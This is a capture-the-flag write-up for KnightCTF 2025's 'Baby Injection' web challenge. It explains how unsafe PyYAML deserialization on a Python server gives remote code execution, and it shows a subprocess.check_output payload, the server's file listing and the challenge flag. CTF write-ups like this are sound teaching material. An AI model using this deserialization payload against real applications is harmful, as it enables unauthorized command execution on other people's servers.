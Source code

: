 ```yaml
---
title: "Baby Injection"
description: "Sometimes, seemingly harmless configuration files can do more than they appear. Can you uncover a hidden flaw and turn it to your advantage?"
pubDate: 2025-01-22
ctf: "KnightCTF 2025"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/25-knight/icon.png"
---
```




We are given a webserver which displays some text and has a base64 string at the end:
`http://172.105.121.246:5990/eWFt...`

Decoding that string we see the following:

```
yaml: <text here>
```

This seems to be some sort of YAML injection, so let's look at what the server is running with.

The webserver is running with **Python** according to the headers in the response (no screenshot sorry, it was very clear I promise).

Looking at PayloadAllTheThings there is a section on [PyYAML](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Python.md#pyyaml).

I try a basic payload: `!!python/object/apply:builtins.range [1, 10, 1]`.

The server response is `range(1,10)`, perfect!!

I try an RCE to list the files in the current directory: `yaml: !!python/object/new:subprocess.check_output [['ls', '-la']]`.

The webserver responds with the following (thanks to `abl` for supplying the response post CTF):

```
[{&#39;test&#39;: {b&#34;total 32\ndrwxr-xr-x 1 root root 4096 Jan 21 01:22 .\ndrwxr-xr-x 1 root root 4096 Jan 20 21:15 ..\n-rw-r--r-- 1 root root  500 Jan 20 21:08 Dockerfile\n-rw-r--r-- 1 root root    0 Jan 20 22:56 KCTF{d38787fb0741bd0efdad8ed01f037740}\n-rw-r--r-- 1 root root    0 Jan 20 22:56 Why didn&#39;t they set this as read only\n-rw-r--r-- 1 root root    0 Jan 20 22:56 a\n-rw-r--r-- 1 root root   86 Jan 20 22:43 a.txt\ndrwxr-xr-x 3 root root 4096 Jan 20 21:13 app\n-rw-r--r-- 1 root root    0 Jan 21 00:34 hey.txt\n-rw-r--r-- 1 root root   27 Jan 20 20:59 requirements.txt\n-rwxr-xr-x 1 root root  128 Jan 20 21:15 start.sh\ndrwxr-xr-x 2 root root 4096 Jan 21 01:23 static\n-rw-r--r-- 1 root root    0 Jan 20 22:56 what if someone overwrite the flag??\n-rw-r--r-- 1 root root    0 Jan 20 23:04 zab.txt\n&#34;: None}}]
```

This contains the flag!

Flag: `KCTF{d38787fb0741bd0efdad8ed01f037740}`
